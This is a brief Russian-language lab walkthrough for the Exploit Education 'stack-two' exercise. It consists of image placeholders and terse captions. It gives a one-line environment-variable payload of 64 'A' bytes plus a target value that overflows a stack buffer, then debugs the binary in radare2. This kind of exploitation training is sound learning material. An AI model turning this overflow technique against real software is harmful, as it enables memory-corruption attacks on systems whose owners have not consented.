





здесь необходимо создать переменную окружения 

export ExplotEducation=$(python3 -c "print('A'*64 + '\x0a\x09\x0a\x0d', end='')")

Запускаем радар2
r2 -d stack-two

стек до\

после \

код проверки \

содержимое eax\

победа\
